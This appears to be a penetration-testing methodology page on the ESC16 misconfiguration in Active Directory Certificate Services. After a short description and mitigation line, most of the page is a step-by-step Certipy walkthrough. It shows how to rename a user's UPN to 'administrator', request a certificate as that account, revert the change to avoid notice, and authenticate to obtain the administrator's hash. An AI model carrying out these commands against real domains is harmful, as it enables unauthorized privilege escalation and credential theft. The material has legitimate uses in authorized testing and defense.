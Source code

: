 # ESC16

_"The ESC16 vulnerability in Active Directory Certificate Services (AD CS) arises when the `szOID_NTDS_CA_SECURITY_EXT` extension is globally disabled, weakening the certificate-to-account binding and allowing legacy mappings like UPN or SAN to be used for authentication. This misconfiguration, combined with the absence of strict enforcement (`StrongCertificateBindingEnforcement` not set to 2), enables attackers with limited privileges to impersonate higher-privileged users by modifying their own `userPrincipalName` and requesting a forged certificate. Through tools like Certipy, attackers can identify and exploit this flaw to gain unauthorized access. To prevent such attacks, organizations must ensure strong certificate binding enforcement is enabled, the critical OID extension is not disabled, and certificate templates and user permissions are strictly audited and configured."_

{% embed url="https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6" %}

#### Methodology

* Run Certipy (version 5.X.X) and check the output
* If the Certificate is vulnerable to ESC16, exploit it
* Leverage ESC16 to escalate privilege



## ESC16 detection&#x20;

Using `certify v5.0.2` from kali linux machine to detect if the certicate is vulnerables.

<pre class="language-bash" data-title="With Pass" data-overflow="wrap"><code class="lang-bash"><strong>certipy find -u 'user@domain.com' -p 'PASS' -dc-ip IP -vulnerable -enabled
</strong></code></pre>

{% code title="With Hash" overflow="wrap" %}
```bash
certipy find -u 'user@domain.com' -hashes 'HASH' -dc-ip IP -vulnerable -enabled
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### **Exploitation of ESC16 Vulnerability Using Certipy**

1. **Update UserPrincipalName** (UPN) of a user to impersonate another user (like `administrator`).

{% code overflow="wrap" %}
```bash
certipy account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'administrator' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This allows the user to request certificates for the `administrator` identity.

2. **Verify** the Attribute Update

```bash
certipy account -u 'USER' -p 'PASS' -dc-ip IP -u 'MOD_USER' read
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Now the UPN is set to `administrator` .

3. **Request Certificate** as `administrator`&#x20;

{% code overflow="wrap" %}
```bash
certipy req -dc-ip IP -u 'administrator' -p 'USER_PASS' -target 'DC.domain.com' -ca 'CA_NAME' -template 'User'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

4. **Revert the UPN change** to prevent suspiciuos or disruption.

{% code overflow="wrap" %}
```bash
certify account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'USER_TO_MOD' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



### Get access with administrator certificate

Once we obtained the `administrator.pfx` certificate, we can use it to get his hash.

```bash
certipy auth -pfx administrator.pfx -domain 'domain.com' -dc-ip IP 
```

<figure><img src="../../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

